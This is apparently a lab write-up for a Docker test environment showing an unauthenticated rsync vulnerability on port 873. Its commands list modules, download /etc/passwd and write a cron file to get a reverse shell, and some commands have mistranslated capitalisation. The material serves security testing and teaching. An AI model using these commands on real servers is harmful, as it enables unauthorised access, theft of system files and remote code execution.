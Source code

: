 # rsync Unauthorized Access Vulnerability

Rsync is a data backup tool for Linux. It supports remote file transfer via rsync protocol and ssh protocol. The rsync protocol listens to port 873 by default. If the target has the rsync service enabled and no ACL or access password is configured, we will be able to read and write the target server file.

## Vulnerability Testing

Compile and run the rsync server:

```
Docker-compose build
Docker-compose up -d
```

After the environment is started, we use the rsync command to access it:

```
Rsync rsync://your-ip:873/
```

You can view a list of module names:

![](1.png)

As shown above, there is a src module, and we will list the files under this module:

```
Rsync rsync://your-ip:873/src/
```

![](2.png)

This is a Linux root directory and we can download any file:

```
Rsync -av rsync://your-ip:873/src/etc/passwd ./
```

Or write to any file:

```
Rsync -av shell rsync://your-ip:873/src/etc/cron.d/shell
```

We wrote a cron task and successfully bounced the shell:

![](3.png)